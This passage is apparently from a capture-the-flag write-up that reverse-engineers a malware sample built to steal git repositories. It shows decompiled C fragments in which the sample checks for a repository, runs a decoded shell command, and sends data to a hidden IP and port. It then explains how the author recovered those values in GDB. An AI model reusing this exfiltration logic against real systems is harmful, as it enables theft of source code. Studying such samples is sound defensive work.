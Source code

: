 and  ndldgaiugwdhv does:
```C
int iVar1;
  char *pcVar2;
  int result;
  int rv;
  char *gitpath;
  char *pidof_git;
  
  pcVar2 = tgexpgbgxulli(7);
  iVar1 = git_repository_open_ext(0,pcVar2,1,0);
  aotxxfxjjvuoy(7);
  if (iVar1 == 0) {
    pcVar2 = tgexpgbgxulli(8);
    iVar1 = system(pcVar2);
    aotxxfxjjvuoy(8);
    if (iVar1 == 0) {
      iVar1 = -1;
    }
    else {
      iVar1 = 0;
    }
  }
  else {
    iVar1 = -1;
  }
  return iVar1;
```

Also looking through dxfivqvkpuunm (which was way too long to include and is in a seperate file in this directory)

We can guess by the nuber of refrences to git that this is where the git repo is looked at before being stollen. It also makes sense that if there is no git repo on the system, then it can't do anything and simply returns.

Looking farther down in the program we see the following lines of code:

```C
    ip_00 = tgexpgbgxulli(0x13);
    length = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::length();
    iVar3 = kvhlfowzlznog(ip_00,0x1a0a,pcVar4,length);
    aotxxfxjjvuoy(0x13);
```
and after this section of code, the program seems to end, so we can assume that this is where the meat of the operation happens.

However, before we go farther it seems that we have found where 2 of the flags are. In order to use a socket (which we know from before this code does) you need to have an IP address and a port number. We directly see an variable labeled IP here and next to it an hard coded integer. At this point, I opended the program in GDB with GEF installed and simply called tgexpgbgxulli(0x13) which gave me the ip address and converted the hex port to an integer. (I will go into detail later in the walkthrough how to open and run stuff in GDB.) Both of these flags were correct letting me know that I was on the correct path.
